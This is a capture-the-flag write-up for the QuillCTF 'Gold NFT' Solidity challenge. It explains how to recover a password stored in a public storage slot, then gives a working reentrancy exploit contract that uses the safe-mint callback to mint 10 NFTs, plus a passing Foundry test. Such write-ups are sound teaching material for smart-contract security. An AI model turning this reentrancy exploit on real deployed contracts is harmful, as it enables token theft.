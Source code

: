 # QuillCTF : Gold NFT

## Objective of CTF

Retrieve the password from IPassManager and mint at least 10 NFTs.

### Contract code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {ERC721} from "lib/openzeppelin-contracts/contracts/token/ERC721/ERC721.sol";

interface IPassManager {
    function read(bytes32) external returns (bool);
}

contract GoldNFT is ERC721("GoldNFT", "GoldNFT") {
    uint lastTokenId;
    bool minted;

    function takeONEnft(bytes32 password) external {
        require(
            IPassManager(0xe43029d90B47Dd47611BAd91f24F87Bc9a03AEC2).read(
                password
            ),
            "wrong pass"
        );

        if (!minted) {
            lastTokenId++;
            _safeMint(msg.sender, lastTokenId);
            minted = true;
        } else revert("already minted");
    }
}
```

It's calling `read()` on 0xe43029d90B47Dd47611BAd91f24F87Bc9a03AEC2 in goerli

We can decompile it to see what it's doing :
https://goerli.etherscan.io/bytecode-decompiler?a=0xe43029d90b47dd47611bad91f24f87bc9a03aec2

It's basically just taking that password as the storage slot and read a boolean from that slot

On the contract creation transaction, we can see that the storage slot `0x23ee4bc3b6ce4736bb2c0004c972ddcbe5c9795964cdd6351dadba79a295f5fe` is changed to `0x0000000000000000000000000000000000000000000000000000000000000001`

https://goerli.etherscan.io/tx/0x88fc0f1dd855405d092fc408c3311e7131477ec201f39344c4f002371c23f81c#statechange

So we can just set our password to `0x23ee4bc3b6ce4736bb2c0004c972ddcbe5c9795964cdd6351dadba79a295f5fe`

Then we have to mint 10 NFT, however it will check for `minted`, and after the mint, it will change `minted` to true, so we can't mint again

But it is using `safeMint()` which is vulnerable to reentrancy, also it is not using checks-effects-interactions pattern, so we can do reentrancy to get 10 NFT

### Exploit contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {ERC721} from "lib/openzeppelin-contracts/contracts/token/ERC721/ERC721.sol";
import "./GoldNFT.sol";

contract HackGoldNft {
    uint256 i;

    function exploit(address addr) external {
        GoldNFT(addr).takeONEnft(0x23ee4bc3b6ce4736bb2c0004c972ddcbe5c9795964cdd6351dadba79a295f5fe);
        for (uint id = 1; id < 11; ++id) {
            GoldNFT(addr).transferFrom(address(this), msg.sender, id);
        }
    }
    
    function onERC721Received(address,address,uint256,bytes memory) public returns (bytes4) {
        i += 1;
        if (i < 11) {
            GoldNFT(msg.sender).takeONEnft(0x23ee4bc3b6ce4736bb2c0004c972ddcbe5c9795964cdd6351dadba79a295f5fe);
        }
        return this.onERC721Received.selector;
    }

}
```

## Proof of concept

### Foundry test

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.7;

import "forge-std/Test.sol";
import "../src/GoldNFT.sol";
import "../src/GoldNFTExploit.sol";

contract Hack is Test {
    GoldNFT nft;
    HackGoldNft nftHack;
    address owner = makeAddr("owner");
    address hacker = makeAddr("hacker");

    function setUp() external {
        vm.createSelectFork("goerli", 8591866); 
        nft = new GoldNFT();
    }

    function test_Attack() public {
        vm.startPrank(hacker);
        // solution
        nftHack = new HackGoldNft();
        nftHack.exploit(address(nft));
        
        assertEq(nft.balanceOf(hacker), 10);
    }
}
```

### Foundry test output

```
# forge test --match-path test/GoldNFT.t.sol -vv
[⠒] Compiling...
No files changed, compilation skipped

Running 1 test for test/GoldNFT.t.sol:Hack
[PASS] test_Attack() (gas: 781405)
Test result: ok. 1 passed; 0 failed; finished in 139.37ms
```